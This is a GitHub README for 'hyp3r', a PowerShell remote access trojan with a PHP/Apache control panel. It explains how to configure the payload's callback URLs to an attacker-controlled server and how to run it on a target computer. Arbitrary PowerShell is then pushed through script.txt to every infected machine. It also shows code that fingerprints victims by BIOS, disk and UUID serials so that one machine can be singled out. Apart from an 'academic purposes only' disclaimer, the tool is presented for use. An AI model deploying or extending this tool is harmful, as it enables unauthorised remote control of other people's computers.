 # hyp3r RAT

![GitHub License](https://img.shields.io/github/license/XZE3N/hyp3r)
![GitHub last commit](https://img.shields.io/github/last-commit/XZE3N/hyp3r)
![GitHub Issues or Pull Requests](https://img.shields.io/github/issues/XZE3N/hyp3r)
![GitHub contributors](https://img.shields.io/github/contributors/XZE3N/hyp3r)

<img style="margin: 0 auto" src=https://upload.wikimedia.org/wikipedia/commons/2/2f/PowerShell_5.0_icon.png>

## hyp3r is a basic Remote Access Tool (RAT) written in powershell.

**DISCLAIMER: THIS PROJECT IS FOR ACADEMIC PURPOSES ONLY. THE DEVELOPERS TAKE NO RESPONSIBILITY FOR ILLEGAL USAGE AND/OR POTENTIAL HARMS.**

<hr>

## Requirements
  - PHP 8.0.2 (might work on older versions as well).
  - Apache web server.
  - PowerShell version 5.1 (might work on older versions as well) installed on the target computer (Required for cmdlets to run).

## Features
  - WebGUI.
  - Live target status.
  - Remote shell execution.
  - Multi-target support (The script can handle as many targets as your server can).
  - Simple and easy to customize scripts.

## Notes
  - The timezone of both the server and the payload are set to GTB Standard Time so take that into account if you want to modify the inner workings of the script.
  - Remember to modify the parameters inside the payload (`http.ps1`) to suit your needs.

## Installation

### 1. Clone this repository

You can use git to clone this repository or download the .zip file from GitHub.

```bash
git clone https://github.com/xze3n/hyp3r.git
cd hyp3r/
```

### 2. Configure
  - Copy the contents of the `apache` folder to your webserver's page folder.
  - Edit lines `2`, `3` and `4` inside `http.ps1` as follows: 

```powershell
$verurl = 'http://your_website_url_or_ip/script.txt'
$url = 'http://your_website_url_or_ip'
$stop = 'the syntax of your choice to force stop the payload on the target machine'
```

  - Save and close the file. The installation is now complete!

## Usage

#### 1. Start your webserver.
#### 2. Run the powershell payload on the target computer.
#### 3. Open `localhost` inside a browser to see the active connections.

#### To run commands on the target computer(s) open the file called `script.txt` inside your webserver's page folder and modify its contents
  - Example:
```powershell
[System.Console]::Beep(1000,300)
```

  -the syntax above will result in a short *beep* given out by the target
### Notes:
  - The commands or scripts you write inside `script.txt` must be powershell code (obviously).
  - If you have multiple targets that listen to the same server the commands inside `script.txt` will be ran by all of the computers listening.
  - If you want to run a command only on one of the targets you will have to get a little creative:

```powershell
if($env:COMPUTERNAME -eq "TARGET-PC") {
	echo "now it will only be executed by targets with the user TARGET-PC"
}
```
  - If the `COMPUTERNAME` identifier is way to simple for your needs and it brings up problems you can use the scripts unique identifier composed of the biosid, hddid and uuid of the target computer

```powershell
$a=Get-WmiObject win32_bios | Format-List SerialNumber | out-string; $id_bios=$a.split(' ')[2].Trim(); #bios id
$b=wmic diskdrive get serialnumber; $id_hdd=$b.split('\n')[2].Trim(); #hdd id
$c=Get-WmiObject -Class Win32_ComputerSystemProduct | Select-Object -Property UUID | out-string;$id_uuid=$c.split(' ')[64].Trim() #uuid
$ids=$ids=$id_bios, $id_hdd, $id_uuid; $ids=[system.String]::Join("_", $ids);
if($ids -eq "UNIQUE_IDENTIFIER") {
	doStuff()
}
```


  - You can get the UNIQUE_IDENTIFIER of a computer from the `data.txt` file inside the webserver's page folder: 
  - eg. `CND83492ZZ_69BCTDGFT_760BD1B8-5170-E821-A4C3-1063E5C2E22F`.
